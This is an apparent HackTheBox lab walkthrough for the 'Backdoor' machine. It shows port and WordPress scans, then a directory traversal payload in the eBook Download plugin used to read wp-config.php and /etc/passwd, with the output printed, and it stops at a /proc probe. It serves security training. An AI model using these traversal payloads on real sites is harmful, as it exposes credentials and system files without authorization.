








# Backdoor : HackTheBox Walkthrough
- Today, I'll be doing [Backdoor](https://app.hackthebox.com/machines/Backdoor), an easy HTB machine, but lets see how easy it gets.
- Add backdoor.htb in `/etc/hosts` file and jump right in and start.
- First off, find the open ports, for me I used [nmapAutomator](https://github.com/21y4d/nmapAutomator)
```
┌──(kali㉿kali)-[~/nmapAutomator]
└─$ ./nmapAutomator.sh -H 10.10.11.125 -t Port 

Running a Port scan on 10.10.11.125

Host is likely running Linux
                                                                                                                    
                                                                                                                    
---------------------Starting Port Scan-----------------------                                                      
                                                                                                                    


PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


---------------------Finished all scans------------------------
                                                                                                                    

Completed in 1 seconds

```
- From the port scan, ports `22` and `80` are open.
- nmapAutomator comes with a feature we can see the vulnerabilities the ports are susceptible to
```
┌──(kali㉿kali)-[~/nmapAutomator]
└─$ ./nmapAutomator.sh -H 10.10.11.125 -t Vulns                                                                 1 ⨯

Running a Vulns scan on 10.10.11.125

Host is likely running Linux

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.2p1: 
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3      *EXPLOIT*
|       10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207      *EXPLOIT*
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|       MSF:ILITIES/GENTOO-LINUX-CVE-2021-28041/        4.6     https://vulners.com/metasploit/MSF:ILITIES/GENTOO-LINUX-CVE-2021-28041/     *EXPLOIT*
|       CVE-2021-28041  4.6     https://vulners.com/cve/CVE-2021-28041
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/     4.3     https://vulners.com/metasploit/MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/  *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/   *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/   *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/   *EXPLOIT*
|       MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/   4.3     https://vulners.com/metasploit/MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/        *EXPLOIT*
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|_      CVE-2016-20012  4.3     https://vulners.com/cve/CVE-2016-20012
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 5.8.1
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|_  /readme.html: Interesting, a readme.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-wordpress-users: 
| Username found: admin
|_Search stopped at ID #25. Increase the upper limit if necessary with 'http-wordpress-users.limit'
| vulners: 
|   cpe:/a:apache:http_server:2.4.41: 
|       MSF:ILITIES/UBUNTU-CVE-2020-11984/      7.5     https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2020-11984/   *EXPLOIT*
|       MSF:ILITIES/REDHAT_LINUX-CVE-2020-11984/        7.5     https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-11984/     *EXPLOIT*
|       MSF:ILITIES/ORACLE_LINUX-CVE-2020-11984/        7.5     https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2020-11984/     *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11984/      7.5     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11984/   *EXPLOIT*
|       MSF:ILITIES/FREEBSD-CVE-2020-11984/     7.5     https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2020-11984/  *EXPLOIT*
|       MSF:ILITIES/APACHE-HTTPD-CVE-2020-11984/        7.5     https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-11984/     *EXPLOIT*
|       CVE-2021-44790  7.5     https://vulners.com/cve/CVE-2021-44790
|       CVE-2021-39275  7.5     https://vulners.com/cve/CVE-2021-39275
|       CVE-2021-26691  7.5     https://vulners.com/cve/CVE-2021-26691
|       CVE-2020-11984  7.5     https://vulners.com/cve/CVE-2020-11984
|       1337DAY-ID-34882        7.5     https://vulners.com/zdt/1337DAY-ID-34882        *EXPLOIT*
|       FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8    6.8     https://vulners.com/githubexploit/FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8      *EXPLOIT*
|       CVE-2021-40438  6.8     https://vulners.com/cve/CVE-2021-40438
|       CVE-2020-35452  6.8     https://vulners.com/cve/CVE-2020-35452
|       4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332    6.8     https://vulners.com/githubexploit/4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332      *EXPLOIT*
|       CVE-2021-44224  6.4     https://vulners.com/cve/CVE-2021-44224
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/ 5.0     https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/      *EXPLOIT*
|       MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/ 5.0     https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/      *EXPLOIT*
|       MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/       5.0     https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/    *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/       5.0     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/    *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/       5.0     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/    *EXPLOIT*
|       MSF:ILITIES/FREEBSD-CVE-2020-9490/      5.0     https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2020-9490/   *EXPLOIT*
|       MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/ 5.0     https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/      *EXPLOIT*
|       MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/ 5.0     https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/      *EXPLOIT*
|       MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/   5.0     https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/        *EXPLOIT*
|       CVE-2021-36160  5.0     https://vulners.com/cve/CVE-2021-36160
|       CVE-2021-34798  5.0     https://vulners.com/cve/CVE-2021-34798
|       CVE-2021-33193  5.0     https://vulners.com/cve/CVE-2021-33193
|       CVE-2021-30641  5.0     https://vulners.com/cve/CVE-2021-30641
|       CVE-2021-26690  5.0     https://vulners.com/cve/CVE-2021-26690
|       CVE-2020-9490   5.0     https://vulners.com/cve/CVE-2020-9490
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2020-13950  5.0     https://vulners.com/cve/CVE-2020-13950
|       CVE-2019-17567  5.0     https://vulners.com/cve/CVE-2019-17567
|       MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/        4.3     https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/     *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/   *EXPLOIT*
|       MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/        4.3     https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/     *EXPLOIT*
|       MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/        4.3     https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/     *EXPLOIT*
|       MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/  4.3     https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/       *EXPLOIT*
|       CVE-2020-11993  4.3     https://vulners.com/cve/CVE-2020-11993
|_      1337DAY-ID-35422        4.3     https://vulners.com/zdt/1337DAY-ID-35422        *EXPLOIT*
|_http-csrf: Couldn't find any CSRF vulnerabilities.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


---------------------Finished all scans------------------------
                                                                                                                    

Completed in 1 minute(s) and 41 second(s)

```
- From the above, we can identify the ports, directories and vulnerabilities on the system that we can exploit.
- Being that port 80 is in use, we can check what system is being used by using `whatweb`
```
┌──(kali㉿kali)-[~/…/ctf/htb/machines/backdoor]
└─$ whatweb 10.10.11.125                                                                                        2 ⚙
http://10.10.11.125 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[wordpress@example.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.125], JQuery[3.6.0], MetaGenerator[WordPress 5.8.1], PoweredBy[WordPress], Script, Title[Backdoor &#8211; Real-Life], UncommonHeaders[link], WordPress[5.8.1]                                                                
```

- Evidently, `wordpress` is being used on the website, version `5.8.1`.
- To find the vulnerabilities, check through searchsploit, ie:

- Identify plugins using wpscan
```
┌──(kali㉿kali)-[~/…/ctf/htb/machines/backdoor]
└─$ wpscan --url http://10.10.11.125 --enumerate p,u --plugins-detection aggressive
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.10.11.125/ [10.10.11.125]
[+] Started: Tue Feb 15 17:29:46 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.11.125/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.11.125/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.11.125/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.11.125/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.8.1 identified (Insecure, released on 2021-09-09).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.11.125/index.php/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>
 |  - http://10.10.11.125/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://10.10.11.125/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-01-25T00:00:00.000Z
 | Readme: http://10.10.11.125/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.9
 | Style URL: http://10.10.11.125/wp-content/themes/twentyseventeen/style.css?ver=20201208
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.8 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.11.125/wp-content/themes/twentyseventeen/style.css?ver=20201208, Match: 'Version: 2.8'

[+] Enumerating Most Popular Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:01:34 <==================================> (1500 / 1500) 100.00% Time: 00:01:34
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://10.10.11.125/wp-content/plugins/akismet/
 | Latest Version: 4.2.2
 | Last Updated: 2022-01-24T16:11:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.10.11.125/wp-content/plugins/akismet/, status: 403
 |
 | The version could not be determined.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:02 <======================================> (10 / 10) 100.00% Time: 00:00:02

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.11.125/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
                              
```
- The system is making use of `akismet` plugin, having the path `http://10.10.11.125/wp-content/plugins/akismet/`
- Going to the directory, one level down we get an ebook directory which we can check the vulnerabilities associated with the plugin using searchsploit.

- We have an LFI and directory traversal via WordPress Plugin eBook Download 1.1 - Directory Traversal [exploit](https://www.exploit-db.com/exploits/39575)
```
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```
- Try logging in to the WordPress admin panel with the password obtained

- but unfortunately the password doesn't work so we can as well try downloading the `/etc/passwd` file using `wget` to see if we can get any useful information.


```
┌──(kali㉿kali)-[~/…/ctf/htb/machines/backdoor]
└─$  curl http://10.10.11.125/wp-content/plugins//ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../etc/passwd
../../../../../../../../../etc/passwd../../../../../../../../../etc/passwd../../../../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
<script>window.close()</script>             
```

- While researching came across this [blog](https://zsahi.wordpress.com/2018/09/10/file-inclusion/) by _zsahi_ and [this](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/) by _Kevin Burns_on File Inclusion, Directoy Traversal and The Proc File System that interested me and may come in handy.

- Wrote a script that gave us the following:
```
┌──(kali㉿kali)-[~/…/ctf/htb/machines/backdoor]
└─$ python3 script.py                                                                                         130 ⨯
URL: http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/1/cmdline
120
Length: 120

["b'/proc/1", 'proc/1', 'proc/1', "sbin/init\\x00auto\\x00automatic-ubiquity\\x00noprompt\\x00<script>window.close()</script>'"]
----------------------------------
```




